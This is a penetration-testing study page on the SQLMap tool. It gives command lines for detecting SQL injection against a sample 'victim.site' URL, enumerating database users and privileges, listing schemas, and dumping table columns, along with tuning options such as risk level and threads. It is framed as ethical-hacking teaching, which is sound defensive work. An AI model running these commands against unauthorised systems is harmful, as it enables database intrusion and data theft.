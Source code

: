 # 2.4.6 SQLMap

## SQLMap

SQLMap is a powerful open-source penetration testing tool designed to automate the process of detecting and exploiting SQL injection flaws in web applications. It simplifies the identification and exploitation of SQL vulnerabilities, making it a widely used tool in the field of penetration testing.

### **Basic Syntax**

*   **Detecting SQL Injection:** To use SQLMap, provide the tool with the vulnerable URL and the parameter to test for SQL injection. For example:

    ```
    $ sqlmap -u "http://victim.site/view.php?id=1141" -p id --technique=U
    ```

    This command tells SQLMap to test the `id` parameter of a GET request for `view.php` using a Union-based SQL injection technique.
*   **Handling POST Parameters:** If the injection involves a POST parameter, the syntax would be:

    ```
    $ sqlmap -u <URL> --data=<POST string> -p parameter [options]
    ```

    You can write the POST string manually or copy it from a request intercepted with Burp Proxy.
*   **Using Request Files:** Save a request intercepted with Burp Proxy to a file and specify it on the command line:

    ```
    $ sqlmap -r <request file> -p parameter [options]
    ```

### **Extracting Information**

*   **Database Banner:** The `--banner` switch helps in grabbing the database banner to test injection and include proof of exploitability in reports:

    ```
    $ sqlmap -u <target> --banner <other options>
    ```
* **Information Gathering:**
  *   List users of the database:

      ```
      $ sqlmap -u <target> --users <other options>
      ```
  *   Check if the web application database user is a database administrator:

      ```
      $ sqlmap -u <target> --is-dba <other options>
      ```
* **Database and Schema Extraction:**
  *   List all available databases:

      ```
      $ sqlmap -u <target> --dbs <other options>
      ```
  *   Choose a database and list its tables:

      ```
      $ sqlmap -u <target> -D <database> --tables <other options>
      ```
  *   Choose tables and list their columns:

      ```
      $ sqlmap -u <target> -D <database> -T <tables, comma separated list> --columns <other options>
      ```
  *   Dump specific columns:

      ```
      $ sqlmap -u <target> -D <database> -T <tables> -C <columns list> --dump <other options>
      ```

### **SQLMap Advanced Usage**

*   **Forcing the DBMS:** Specify the DBMS to help shorten the detection phase:

    ```
    $ sqlmap --dbms=<DBMS> ...
    ```

    Available DBMS options include MySQL, Oracle, PostgreSQL, Microsoft SQL Server, and more.
*   **Fine-Tuning Payloads:** Use `--string` and `--not-string` to handle changes in application output. For example:

    ```
    $ sqlmap -u 'http://localhost/ecommerce.php?id=1' --string "nokia" <other switches>
    ```

    Utilize `--prefix` and `--suffix` for structured POST parameters.
* **Aggressiveness and Load:**
  * Use `--level` to test headers and increase the number of columns tested for in-band exploitation.
  * Use `--risk` to adjust the aggressiveness of injections. Higher risk levels enable more dangerous injections.
* **Connection Management:**
  *   Use `--keep-alive` for persistent connections:

      ```
      $ sqlmap -u <target> --keep-alive <other commands>
      ```
  *   Use `--threads` to exploit injections with parallel threads:

      ```
      $ sqlmap -u <target> --technique=8 --threads 7 <other commands>
      ```



* SQL Injections are powerful but can be destructive; hence, ethical hacking requires careful consideration.
* Understanding the tools and their options is crucial for successful and responsible penetration testing.
* SQLMap provides advanced command-line switches for fine-tuning and optimizing the exploitation process.
* Always exercise caution to avoid damaging the client's infrastructure and follow ethical hacking practices.

### BurpSuite & SQLMap

A great way to find out if a SQLi vulnerability is present is to use a web proxy such as BurpSuite, capture the traffic, and save the captured file locally (.xml).

We will then open that file with SQLMap and check for vulnerabilities or not.

```bash
sqlmap -r sql_request_captured.xml 
```

{% content-ref url="https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap" %}
[SQLMap](https://app.gitbook.com/s/iS3hadq7jVFgSa8k5wRA/practical-ethical-hacker-notes/tools/sqlmap)
{% endcontent-ref %}
